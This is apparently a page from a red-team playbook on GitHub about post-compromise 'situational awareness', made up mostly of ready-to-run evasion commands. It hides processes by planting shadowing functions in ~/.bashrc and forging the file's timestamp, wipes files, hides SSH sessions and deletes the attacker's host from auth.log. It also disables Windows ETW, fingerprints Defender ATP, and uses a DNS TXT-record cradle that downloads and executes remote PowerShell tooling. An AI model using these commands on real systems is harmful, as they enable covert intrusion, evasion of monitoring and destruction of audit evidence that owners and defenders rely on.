 # 5.2 Situational Awareness

## Table of Contents

- [Process Hiding](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Process-Hiding)
- [Save File Deletion](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Save-File-Deletion)
- [Hiding SSH Sessions](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Hiding-SSH-Sessions)
- [Logfile Cleaning](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Logfile-Cleaning)
- [Bypassing Event Tracing for Windows (ETW)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Bypassing-Event-Tracing-for-Windows-ETW)
- [Windows Advanced Threat Protection (ATP)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Windows-Advanced-Threat-Protection-ATP)
- [Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Avoid-Invoke-Expression-IEX-and-Invoke-WebRequest-IWR)

## Process Hiding

```c
$ echo 'ps(){ command ps "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'top(){ command top "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'htop(){ command htop "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'procs(){ command procs "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pgrep(){ command pgrep "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pstree(){ command pstree "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
```

## Save File Deletion

```c
$ shred -z <FILE>
```

Alternatively:

```c
$ FN=<FILE>; dd bs=1k count="`du -sk \"${FN}\" | cut -f1`" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```

## Hiding SSH Sessions

```c
$ ssh -o UserKnownHostsFile=/dev/null -T <USER>@<RHOST> 'bash -i'
```
- It is not added to `/var/log/utmp`
- It won't appear in the output of `w` or `who` commands
- No `.profile` or `.bash_profile` modification needed

## Logfile Cleaning

```c
$ cd /dev/shm; grep -v '<RHOST>' /var/log/auth.log > <FILE>.log; cat <FILE>.log > /var/log/auth.log; rm -f <FILE>.log
```

Notice that this modification of the logfile is most likely to be spotted.

## Bypassing Event Tracing for Windows (ETW)

```c
C:\> set COMPlus_ETWEnabled=0
```

## Windows Advanced Threat Protection (ATP)

### Information

Process:
- MsSense.exe

Service:
- Display name: Windows Defender Advanced Threat Protection Service

Name:
- Sense

Registry:
- HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection

File Paths:
- C:\Program Files\Windows Defender Advanced Threat Protection\

### Check Registry

```c
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection /s
```

### Check Service

```c
C:\> sc query sense
PS C:\> Get-Service Sense
```

### Process

```c
C:\> tasklist | findstr /i mssense.exe
```

## Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)

Instead of using `IEX` and `IWR` within assessments, try this:

* Host a text record with the payload at one of the unburned domains

| Name | Type | Value | TTL |
| --- | --- | --- | --- |
| cradle1 | TXT | "IEX(New-Object Net.WebClient).DownloadString($URI)" | 3600 |

```c
C:\> powershell . (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1"""";'(nslookup -q=txt cradle1.domain.example)[-1]';Get-Domain'
```

Example with `PowerSharpPack`.

```c
C:\> powershell
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1"""";'(nslookup -q=txt cradle1.example.domain)[-1]';PowerSharpPack'
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/files/bypass.png">
</p>

### Previous

- [5 Installation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5-Installation.md)
- [5.1 Persistence](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md)

### Next

- [6 Command-and-Control](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/6-Command-and-Control/6-Command-and-Control.md)
